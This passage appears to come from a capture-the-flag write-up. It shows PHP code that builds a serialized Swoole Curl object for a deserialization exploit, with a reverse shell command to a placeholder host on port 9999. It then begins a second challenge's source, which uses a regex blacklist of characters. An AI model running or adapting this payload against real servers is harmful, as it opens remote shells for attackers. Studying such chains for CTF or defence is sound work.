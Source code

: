 ```php
                strlen($serialized) > $p_end_string + 2 &&
                substr($serialized, $p_end_string, 2) == '";'
            ))
            {
                $current = $p_start_string;
                continue;
            }
            $string = substr($serialized, $p_start_string, $length);

            # Convert every special character to its S representation
            $clean_string = '';
            for($i=0; $i < strlen($string); $i++)
            {
                $letter = $string{$i};
                $clean_string .= ctype_print($letter) && $letter != '\\' ?
                    $letter :
                    sprintf("\\%02x", ord($letter));
                ;
            }

            # Make the replacement
            $new .= 
                substr($serialized, $last, $p_start - $last) .
                'S:' . $matches[1][0] . ':"' . $clean_string . '";'
            ;
            $last = $p_end_string + 2;
            $current = $last;
        }

        $new .= substr($serialized, $last);
        return $new;

}
$o = new Swoole\Curl\Handlep("http://baidu.com/");
$o->setOpt(CURLOPT_READFUNCTION,"array_walk");
$o->setOpt(CURLOPT_FILE, "array_walk");
$o->exec = array('/bin/bash -c "bash -i >& /dev/tcp/xxxxxxx/9999 0>&1"');
$o->setOpt(CURLOPT_POST,1);
$o->setOpt(CURLOPT_POSTFIELDS,"aaa");
$o->setOpt(CURLOPT_HTTPHEADER,["Content-type"=>"application/json"]);
$o->setOpt(CURLOPT_HTTP_VERSION,CURL_HTTP_VERSION_1_1);

$a = serialize([$o,'exec']);
echo str_replace("Handlep", "Handler", urlencode(process_serialized($a)));

```

## calc

```php
<?php
error_reporting(0);
if(!isset($_GET['num'])){
    show_source(__FILE__);
}else{
    $str = $_GET['num'];
    $blacklist = ['[a-z]', '[\x7f-\xff]', '\s',"'", '"', '`', '\[', '\]','\$', '_', '\\\\','\^', ','];
    foreach ($blacklist as $blackitem) {
        if (preg_match('/' . $blackitem . '/im', $str)) {
            die("what are you want to do?");
        }
    }
```